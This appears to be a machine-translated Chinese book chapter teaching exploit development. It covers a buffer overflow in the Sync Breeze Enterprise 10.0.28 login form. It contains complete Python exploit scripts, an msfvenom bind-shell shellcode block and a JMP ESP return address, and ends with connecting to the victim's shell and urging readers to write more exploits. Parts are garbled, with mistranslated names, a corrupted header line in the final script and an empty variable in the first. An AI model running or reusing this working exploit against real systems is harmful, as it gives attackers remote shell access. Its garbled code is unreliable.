# 真实世界场景–第 2 部分

在本章中，我们将使用不同的方法来实践开发漏洞，这是 HTTP 头中的易受攻击参数。我们将了解如何截取和查看 HTTP 头的实际内容。

本章涵盖的主题如下：

*   同步微风企业
*   起毛
*   控制指令指针
*   注入外壳代码

# 同步微风企业

我们今天的场景是 Sync Breeze Enterprise V.10.0.28。您可以在[处看到漏洞 https://www.exploit-db.com/exploits/42928/](https://www.exploit-db.com/exploits/42928/) 并且您可以从中下载易受攻击的版本或[https://www.exploit-db.com/apps/959f770895133edc4cf65a4a02d12da8-syncbreezeent_setup_v10.0.28.exe](https://www.exploit-db.com/apps/959f770895133edc4cf65a4a02d12da8-syncbreezeent_setup_v10.0.28.exe) 。

下载并安装它。然后打开它并转到工具|高级选项|服务器。确保在端口 80 上启用 Web 服务器已激活：



保存更改。然后，从我们的攻击机器，通过 Firefox，让我们使用端口`80`连接到此服务，该端口为我们提供以下页面：


现在，让我们尝试对登录名的参数执行一些模糊处理：


# 起毛

现在，让我们使用 Python 生成一些`A`字符：


让我们复制此字符串并将其用作此登录表单的输入：



然后，让我们从该窗口复制实际输入，并获得实际输入的长度：


输入的实际长度为`64`，我们注入了`100`。客户端有一些东西阻止我们注入超过`64`个字符。我们只需右键单击`username`文本输入，然后导航到 Inspect | Elements 即可确认：



我们可以简单地更改`maxlength="64"`值并继续模糊化，但我们需要构建我们的漏洞。让我们尝试使用任何代理应用程序（如 Burp 套件或 OWASP**Zed 攻击代理**（**ZAP**）查看 HTTP 标头内部。我将在这里使用 Burp 套件并设置一个代理，以便截获这个 HTTP 头。

启动 Burp Suite，然后转到代理选项，并确保 Burp Suite 正在环回地址`127.0.0.1`的端口`8080`上侦听：



然后，通过浏览器，使用端口`8080`在环回地址`127.0.0.1`上设置代理：


准备好登录页面，并通过导航到代理|拦截来激活 Burp 套件中的拦截：



现在，拦截准备就绪。让我们在登录表单中插入任意数量的字符，然后单击 login 并返回 Burp Suite：



关闭打嗝套房。将代理设置回正常状态，让我们使用此标头构建模糊代码并模糊化`username`参数：

```
#!/usr/bin/python
import socket

junk = 

payload="username="+junk+"&password=A"

buffer="POST /login HTTP/1.1\r\n"
buffer+="Host: 192.168.129.128\r\n"
buffer+="User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
buffer+="Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
buffer+="Accept-Language: en-US,en;q=0.5\r\n"
buffer+="Referer: http://192.168.129.128/login\r\n"
buffer+="Connection: close\r\n"
buffer+="Content-Type: application/x-www-form-urlencoded\r\n"
buffer+="Content-Length: "+str(len(payload))+"\r\n"
buffer+="\r\n"
buffer+=payload

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.129.128", 80))
s.send(buffer)
s.close()
```

让我们从`300`开始：

```
junk = 'A'*300
```

现在，将 Sync Breeze 连接到免疫调试器（以管理员身份运行免疫调试器）：



确保将其连接到服务器（`syncbrs`），而不是客户端（`syncbrc`），然后点击运行程序。

现在，在我们的攻击机器上启动攻击代码：


什么也没发生。让我们将模糊值增加到`700`：

```
junk = 'A'*700
```

然后，重新运行该漏洞：



又一次什么也没发生。让我们将模糊值增加到`1000`：

```
junk = 'A'*1000
```

现在，重新运行该漏洞：


成功了！让我们来看看这些寄存器：


堆栈中有`A`字符：



# 控制指令指针

好的，很好。让我们创建模式以获取 EIP 的偏移量：

```
$ cd /usr/share/metasploit-framework/tools/exploit/
$ ./pattern_create.rb -l 1000
```

现在，将垃圾值重置为新模式：

```
junk = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B'
```

关闭免疫调试器并转到任务管理器|服务|服务。。。；现在，选择 Sync Breeze Enterprise，然后选择 Start 以再次启动服务：


然后，确保程序正在运行并已连接：



现在，再次以管理员身份运行免疫调试器，连接`syncbrs`，然后点击运行程序。

然后，从攻击机器运行该漏洞：


现在的 EIP 值为`42306142`；让我们定位 EIP 的精确偏移量：

```
$ cd /usr/share/metasploit-framework/tools/exploit/
$ ./pattern_offset.rb -q 42306142 -l 1000
```

在以下屏幕截图中可以看到前面命令的输出：



此外，我们还可以使用免疫调试器中的`mona`插件：

```
!mona findmsp
```

在以下屏幕截图中可以看到前面命令的输出：


让我们确认一下：

```
#!/usr/bin/python
import socket

junk = 'A'*780
eip = 'B'*4
pad = 'C'*(1000-780-4)

injection = junk + eip + pad

payload="username="+injection+"&password=A"
buffer="POST /login HTTP/1.1\r\n"
buffer+="Host: 192.168.129.128\r\n"
buffer+="User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
buffer+="Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
buffer+="Accept-Language: en-US,en;q=0.5\r\n"
buffer+="Referer: http://192.168.129.128/login\r\n"
buffer+="Connection: close\r\n"
buffer+="Content-Type: application/x-www-form-urlencoded\r\n"
buffer+="Content-Length: "+str(len(payload))+"\r\n"
buffer+="\r\n"
buffer+=payload

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.129.128", 80))
s.send(buffer)
s.close()
```

关闭免疫调试器并启动 Sync Breeze Enterprise 服务，确保程序正在运行并已连接。然后，启动免疫调试器（作为管理员），附加`syncbrs`，并点击运行程序。

然后，重新运行该漏洞：



现在，我们可以控制指令指针：



# 注入 shell 代码

因此，我们的最终注射应如下所示：



关闭免疫调试器并启动 Sync Breeze Enterprise 服务，确保程序正在运行并已连接。然后启动免疫调试器，连接`syncbrs`，并点击运行程序。

好的，让我们找到`JMP ESP`：


然后，搜索`JMP ESP`：


我们有一个长长的名单；让我们选一个，`10090c83`：

我们选择此地址是因为此位置对应用程序是持久的（`libspp.dll`。如果我们选择了一个与系统相关的地址（如`SHELL32.dll`或`USER32.dll`，那么该地址将在每次系统重新启动时更改。正如我们在前一章中所看到的，它只在运行时工作，在系统重新启动时将毫无用处。

```
eip = '\x83\x0c\x09\x10'
```

我们还要设置 NOP 雪橇：

```
nops = '\x90'*20
```

现在，让我们在端口`4321`上生成一个绑定 TCP 外壳代码：

```
$ msfvenom -a x86 --platform windows -p windows/shell_bind_tcp LPORT=4321 -b '\x00\x26\x25\x0A\x2B\x3D\x0D' -f python
```

在以下屏幕截图中可以看到前面命令的输出：



我们的最终攻击代码应该如下所示：

```
#!/usr/bin/python
import socket

buf = ""
buf += "\xda\xd8\xd9\x74\x24\xf4\xba\xc2\xd2\xd2\x3c\x5e\x29"
buf += "\xc9\xb1\x53\x31\x56\x17\x83\xee\xfc\x03\x94\xc1\x30"
buf += "\xc9\xe4\x0e\x36\x32\x14\xcf\x57\xba\xf1\xfe\x57\xd8"
buf += "\x72\x50\x68\xaa\xd6\x5d\x03\xfe\xc2\xd6\x61\xd7\xe5"
buf += "\x5f\xcf\x01\xc8\x60\x7c\x71\x4b\xe3\x7f\xa6\xab\xda"
buf += "\x4f\xbb\xaa\x1b\xad\x36\xfe\xf4\xb9\xe5\xee\x71\xf7"
buf += "\x35\x85\xca\x19\x3e\x7a\x9a\x18\x6f\x2d\x90\x42\xaf"
buf += "\xcc\x75\xff\xe6\xd6\x9a\x3a\xb0\x6d\x68\xb0\x43\xa7"
buf += "\xa0\x39\xef\x86\x0c\xc8\xf1\xcf\xab\x33\x84\x39\xc8"
buf += "\xce\x9f\xfe\xb2\x14\x15\xe4\x15\xde\x8d\xc0\xa4\x33"
buf += "\x4b\x83\xab\xf8\x1f\xcb\xaf\xff\xcc\x60\xcb\x74\xf3"
buf += "\xa6\x5d\xce\xd0\x62\x05\x94\x79\x33\xe3\x7b\x85\x23"
buf += "\x4c\x23\x23\x28\x61\x30\x5e\x73\xee\xf5\x53\x8b\xee"
buf += "\x91\xe4\xf8\xdc\x3e\x5f\x96\x6c\xb6\x79\x61\x92\xed"
buf += "\x3e\xfd\x6d\x0e\x3f\xd4\xa9\x5a\x6f\x4e\x1b\xe3\xe4"
buf += "\x8e\xa4\x36\x90\x86\x03\xe9\x87\x6b\xf3\x59\x08\xc3"
buf += "\x9c\xb3\x87\x3c\xbc\xbb\x4d\x55\x55\x46\x6e\x49\x47"
buf += "\xcf\x88\x03\x97\x86\x03\xbb\x55\xfd\x9b\x5c\xa5\xd7"
buf += "\xb3\xca\xee\x31\x03\xf5\xee\x17\x23\x61\x65\x74\xf7"
buf += "\x90\x7a\x51\x5f\xc5\xed\x2f\x0e\xa4\x8c\x30\x1b\x5e"
buf += "\x2c\xa2\xc0\x9e\x3b\xdf\x5e\xc9\x6c\x11\x97\x9f\x80"
buf += "\x08\x01\xbd\x58\xcc\x6a\x05\x87\x2d\x74\x84\x4a\x09"
buf += "\x52\x96\x92\x92\xde\xc2\x4a\xc5\x88\xbc\x2c\xbf\x7a"
buf += "\x16\xe7\x6c\xd5\xfe\x7e\x5f\xe6\x78\x7f\x8a\x90\x64"
buf += "\xce\x63\xe5\x9b\xff\xe3\xe1\xe4\x1d\x94\x0e\x3f\xa6"
buf += "\xa4\x44\x1d\x8f\x2c\x01\xf4\x8d\x30\xb2\x23\xd1\x4c"
buf += "\x31\xc1\xaa\xaa\x29\xa0\xaf\xf7\xed\x59\xc2\x68\x98"
buf += "\x5d\x71\x88\x89"

junk = 'A'*780
eip = '\x83\x0c\x09\x10'
nops = '\x90'*20

injection = junk + eip + nops + buf

payload="username="+injection+"&password=A"

buffer="POST /login HTTP/1.1\r\n"
buffer+="Host: 192.168.129.128\r\n"
buffer+="User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
buffer+="Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
buffer+="Accept-Language: en-US,en;q=0.5\r   2;n"
buffer+="Referer: http://192.168.129.128/login\r\n"
buffer+="Connection: close\r\n"
buffer+="Content-Type: application/x-www-form-urlencoded\r\n"
buffer+="Content-Length: "+str(len(payload))+"\r\n"
buffer+="\r\n"
buffer+=payload

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.129.128", 80))
s.send(buffer)
s.close()
```

准备好的让我们关闭免疫调试器并启动同步微风企业服务；然后，运行漏洞攻击。

现在，使用`nc`命令连接受害者机器：

```
$ nc 192.168.129.128 4321
```

在以下屏幕截图中可以看到前面命令的输出：



成功了！

# 总结

在本章中，我们执行了与前一章相同的步骤，但添加了一小部分与 HTTP 头相关的内容。我想让你做的是在[www.exploit-db.com](http://www.exploit-db.com)中导航，尝试查找任何缓冲区溢出，并像我们在这里做的那样进行自己的利用。你练习得越多，就越能掌握这种攻击！

在下一章中，我们将看一个完整的**结构化异常处理**（**SEH**的实际例子。